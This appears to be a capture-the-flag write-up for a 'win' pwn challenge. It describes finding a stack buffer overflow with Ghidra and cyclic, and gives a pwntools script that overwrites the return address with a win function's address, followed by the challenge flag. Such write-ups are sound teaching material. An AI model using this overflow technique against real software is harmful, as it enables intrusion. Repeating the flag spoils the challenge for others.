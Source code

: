 
This write up is for the win pwn challenge.

The first thing I am going to do is to run both file and checksec to see the basic information and protections on the binary.

After putting into ghidra I  can see that the program reads my input into a buffer without checking the size. This immediately led to a buffer overflow to a win function.

I used cyclic in pwndbg to find my offset of 52
I then created my python script to solve 

```python
#!/usr/bin/env python3 
import subprocess
from pwn import *

binary_path = './win' # exe
libc_path = ''
remote_host = 'www.cweaccessionsctf.com'
remote_port = 1300  # <-- Needs to be a valid integer if using REMOTE

context.binary = binary_path
#context.terminal = ['tmux', 'splitw', '-h']
elf = context.binary
#libc = ELF(libc_path)
rop = ROP(elf)
#libc = ELF(libc_path)

if args.GDB:
    p = gdb.debug(binary_path, gdbscript='b *')
elif args.REMOTE:
    p = remote(remote_host, remote_port)
else:
    p = process(binary_path)

def main():
    win = 0x080491a6
    payload = b''
    payload += b'A' * 52 
    payload += p32(win)

    p.sendline(payload)

    p.interactive()

if __name__ == '__main__':
    main()


```

CWE{no_stack_smashing_here_Nl8VyJ4C}

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTExMjIwMTQwMDFdfQ==
-->